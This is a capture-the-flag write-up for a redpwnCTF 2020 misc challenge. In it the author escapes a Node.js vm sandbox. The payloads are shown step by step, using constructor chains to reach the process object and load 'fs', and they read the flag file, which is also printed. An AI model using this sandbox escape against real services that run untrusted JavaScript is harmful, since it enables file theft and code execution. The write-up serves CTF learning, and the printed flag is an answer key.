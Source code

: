 # CaasiNO
**Category:** Misc

**Points:** 402

**Description:**
> Who needs regex for sanitization when we have VMs?!?!
>
> The flag is at /ctf/flag.txt0
>
> `nc 2020.redpwnc.tf 31273`
>
> **Author:** asphyxia
>
> **Given:** calculator.js

## Writeup
This one isn't as easy for me to explain because I don't understand FULLY how
I am able to get this flag. From my understanding, we are in a JavaScript VM,
which allows us to run some simple JavaScript. I don't know all that much JavaScript,
but I was able to do some research to find out that this vm is escapable.

I started out by seeing:
```
> this.constructor.constructor()
function anonymous(
) {

}
```

This gave me a little inspiration to try to find the flag. I messed around with
this for a while to try to get further and further. I then was able to return this
"process" object, which I was sure had many resources. I was right.
```
> this.constructor.constructor("return this")().process
[object process]
```

I fumbled around with more code and functions until I came across this beauty:
```
> new Function("return (this.constructor.constructor('return (this.process.mainModule.constructor._load)')())")()("fs").readFileSync("ctf/flag.txt")
flag{vm_1snt_s4f3_4ft3r_41l_29ka5sqD}
```

## Flag
flag{vm_1snt_s4f3_4ft3r_41l_29ka5sqD}

## Resources
[readFileSync](https://www.geeksforgeeks.org/node-js-fs-readfilesync-method/?ref=leftbar-rightbar)

[Main idea](https://github.com/gf3/sandbox/issues/50)
